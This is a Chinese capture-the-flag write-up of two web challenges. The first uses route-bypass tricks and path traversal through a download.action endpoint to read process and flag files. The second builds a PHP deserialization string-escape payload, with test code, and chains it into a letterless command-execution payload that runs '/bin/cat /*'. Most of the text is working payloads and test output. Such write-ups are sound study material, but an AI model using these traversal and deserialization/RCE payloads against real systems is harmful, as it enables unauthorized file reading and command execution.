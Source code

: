 自己参赛的，但是牢底坐穿。

wp参考：[星盟安全](https://mp.weixin.qq.com/s?__biz=MzU3ODc2NTg1OA==&mid=2247488602&idx=1&sn=10ec9cd1d0fd77e09a134bedf8b26e57&chksm=fd710117ca06880188f0cbe8f39859df05111969dbd996f7819b369f8cd246a2bdb53dfb9234&mpshare=1&scene=1&srcid=0722esI1i6VOdJb6FxrNUZKT&sharer_sharetime=1690028947299&sharer_shareid=821f1781b37f1c4a3dceea78173325e6#rd)

## hinder
就是说当时一点想法也没有，上来直接permission denied...
没权限可能是由于路由被拦截，因此只要构造不符合条件的路由即可：
```
//hinder/
```
如果存在目录穿越则还可以
```
/a/../hinder/
```
然后在返回网页的注释处发现hint`/download.action?filename=hint`，任意文件读取。

这里直接拼在hinder/后面，`/a/../hinder/download.action?filename=../../../../../../../proc/1/cmdline/`，发现`/bin/sh/run.sh`。
但是读`/a/../hinder/download.action?filename=../../../../../../../bin/sh/run.sh`读不出，
直接读``/a/../hinder/download.action?filename=../../../../../../../run.sh`发现flag路径，读取即可。

## unserize
当时盲猜一手源码www.zip，真下载到了。当时感觉函数aaaa<->bbbbbb感觉是php反序列化字符串逃逸，但是不知道怎么利用。当时的想法是，利用a和b让push_it的session反序列化变成pull_it。
但是还是too naive，怎么可能，totally wrong。

[先知](https://xz.aliyun.com/t/9213)

反序列化构造payload时一切属性都可以设置为public。利用function中两个过滤函数中任意一个都行，root参数传入一堆a/b，通过过滤器后造成长度变短/变长。pwd传入构造好的反序列化字符串。

做个测试：
```
<?php
function b($data) {
	return str_replace('aaaa', 'bbbbbb', $data);
}

function a($data) {
	return str_replace('bbbbbb', 'aaaa', $data);
}
class pull_it {
	public $x;
}
class push_it {
	public $root;
	public $pwd;
}

$a = new push_it();
$a->root = "bbbbbbbbbb";
$a->pwd = "wwwwwwwwww";
echo(serialize($a));
echo("\n\n");  
// O:7:"push_it":2:{s:4:"root";s:10:"bbbbbbbbbb";s:3:"pwd";s:10:"wwwwwwwwww";}

$a->pwd = new pull_it();
$a->pwd->x = "xxxxxxxx";
echo(serialize($a));    
echo("\n\n");  
// O:7:"push_it":2:{s:4:"root";s:10:"bbbbbbbbbb";s:3:"pwd";O:7:"pull_it":1:{s:1:"x";s:8:"xxxxxxxx";}}

$s = 'O:7:"push_it":2:{s:4:"root";s:10:"bbbbbbbbbb";s:3:"pwd";O:7:"pull_it":1:{s:1:"x";s:8:"xxxxxxxx";}}';
echo(unserialize($s)->pwd->x);
echo("\n\n");  
// xxxxxxxx


?>
```

用a过滤器，每6个bbbbbb会吞掉2个字符变成4个aaaa，要把后面的`";s:3:"pwd";s:xx:`也吞掉，总共吞17个字符，由于不是偶数，因此再多吞冒号后的一个引号，总共吞18个字符，
需要9*6=54个b，pwd用于构造pull_it的payload，具体如下：
```
function a($data) {
	return str_replace('bbbbbb', 'aaaa', $data);
}
class pull_it {
	public $x;
}
class push_it {
	public $root;
	public $pwd;
}

$aa = new push_it();
$aa->root = "bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb";
$aa->pwd = '";s:3:"pwd";O:7:"pull_it":1:{s:1:"x";s:2:"ls";}}';
echo(a(serialize($aa)));    
echo("\n\n"); 
// O:7:"push_it":2:{s:4:"root";s:54:"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa";s:3:"pwd";s:48:"";s:3:"pwd";O:7:"pull_it":1:{s:1:"x";s:2:"ls";}}";}

$s = 'O:7:"push_it":2:{s:4:"root";s:54:"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa";s:3:"pwd";s:48:"";s:3:"pwd";O:7:"pull_it":1:{s:1:"x";s:2:"ls";}}";}';
var_dump(unserialize($s));
// object(push_it)#2 (2) {
//   ["root"]=>
//   string(54) "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa";s:3:"pwd";s:48:""
//   ["pwd"]=>
//   object(pull_it)#4 (1) {
//     ["x"]=>
//     string(2) "ls"
//   }
// }


?>
```
另外测试了一下星盟安全给的wp：`root=bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb&pwd=";s:3:"pwd";O:7:"pull_it":1:{s:1:"x";s:2:"ls";}`，吞掉之后的序列化字符串会变得很奇怪，本地测试是失败的。

接下来由于进入了正则匹配，过滤a-zA-Z0-9，因此需要无字符命令执行，把`ls`换成:
```
?><?=`/???/??? /*`;?>
```
我不懂为什么最开始要闭合php的?>标签。之后是短标签，反引号执行，通配符匹配使得最终执行的命令为`/bin/cat /*`

由于带奇怪的字符所以建议url编码后传输

所有测试用代码：
```
<?php
function b($data) {
	return str_replace('aaaa', 'bbbbbb', $data);
}

function a($data) {
	return str_replace('bbbbbb', 'aaaa', $data);
}
class pull_it {
	public $x;
}
class push_it {
	public $root;
	public $pwd;
}

$aa = new push_it();
$aa->root = "bbbbbbbbbb";
$aa->pwd = "wwwwwwwwww";
echo(serialize($aa));
echo("\n\n");  
// O:7:"push_it":2:{s:4:"root";s:10:"bbbbbbbbbb";s:3:"pwd";s:10:"wwwwwwwwww";}

$aa->pwd = new pull_it();
$aa->pwd->x = "xxxxxxxx";
echo(serialize($aa));    
echo("\n\n");  
// O:7:"push_it":2:{s:4:"root";s:10:"bbbbbbbbbb";s:3:"pwd";O:7:"pull_it":1:{s:1:"x";s:8:"xxxxxxxx";}}

$s = 'O:7:"push_it":2:{s:4:"root";s:10:"bbbbbbbbbb";s:3:"pwd";O:7:"pull_it":1:{s:1:"x";s:8:"xxxxxxxx";}}';
echo(unserialize($s)->pwd->x);
echo("\n\n");  
// xxxxxxxx


// other wp:
$aa->root = "bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb";
$aa->pwd = '";s:3:"pwd";O:7:"pull_it":1:{s:1:"x";s:2:"ls";}';
echo(a(serialize($aa)));
echo("\n\n"); 
// O:7:"push_it":2:{s:4:"root";s:84:"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa";s:3:"pwd";s:47:"";s:3:"pwd";O:7:"pull_it":1:{s:1:"x";s:2:"ls";}";}

$s = 'O:7:"push_it":2:{s:4:"root";s:84:"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa";s:3:"pwd";s:47:"";s:3:"pwd";O:7:"pull_it":1:{s:1:"x";s:2:"ls";}";}';
var_dump(unserialize($s));
// bool(false)



$aa->root = "bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb";
$aa->pwd = '";s:3:"pwd";O:7:"pull_it":1:{s:1:"x";s:2:"ls";}}';
echo(a(serialize($aa)));    
echo("\n\n"); 
// O:7:"push_it":2:{s:4:"root";s:54:"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa";s:3:"pwd";s:48:"";s:3:"pwd";O:7:"pull_it":1:{s:1:"x";s:2:"ls";}}";}

$s = 'O:7:"push_it":2:{s:4:"root";s:54:"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa";s:3:"pwd";s:48:"";s:3:"pwd";O:7:"pull_it":1:{s:1:"x";s:2:"ls";}}";}';
var_dump(unserialize($s));
// object(push_it)#2 (2) {
//   ["root"]=>
//   string(54) "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa";s:3:"pwd";s:48:""
//   ["pwd"]=>
//   object(pull_it)#4 (1) {
//     ["x"]=>
//     string(2) "ls"
//   }
// }

?>
```
